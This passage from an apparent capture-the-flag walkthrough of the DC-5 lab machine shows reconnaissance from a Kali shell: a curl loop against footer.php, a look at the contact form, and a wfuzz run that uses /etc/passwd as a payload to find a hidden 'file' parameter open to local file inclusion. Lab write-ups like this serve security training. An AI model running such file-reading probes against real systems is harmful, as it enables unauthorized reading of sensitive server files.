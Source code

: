 ~~~
kali@kali:/data/DC_5$ for i in {1..10};do curl -s http://dc-5/footer.php;echo "";done
Copyright © 2020
Copyright © 2019
Copyright © 2017
Copyright © 2018
Copyright © 2017
Copyright © 2018
Copyright © 2019
Copyright © 2019
Copyright © 2018
Copyright © 2018
~~~

The PHP code is likely something like:

```php
<div class="footer-wrapper">
	<footer>
		<?php include("footer.php"); ?>
	</footer>
</div>
```

Interesting, but not likely to be exploitable though.

### Parameters

The form submits the fields using the GET method, which is quite unusual:

~~~
http://dc-5/thankyou.php?firstname=my+first+name&lastname=my+last+name&country=usa&subject=My+test+subject
~~~

It may be interesting to fuzz the page to check if any other parameter may be included.

# Local File Inclusion (LFI) vulnerability

## Discover the hidden `file` parameter

Let's fuzz the page and see if there are hidden parameters that we may use to read files (LFI).

~~~
kali@kali:/data/DC_5$ wfuzz -u http://dc-5/thankyou.php?FUZZ=/etc/passwd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw=66

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://dc-5/thankyou.php?FUZZ=/etc/passwd
Total requests: 220560

===================================================================
ID           Response   Lines    Word     Chars       Payload                                             
===================================================================

000000759:   200        70 L     104 W    2319 Ch     "file"                                              

~~~
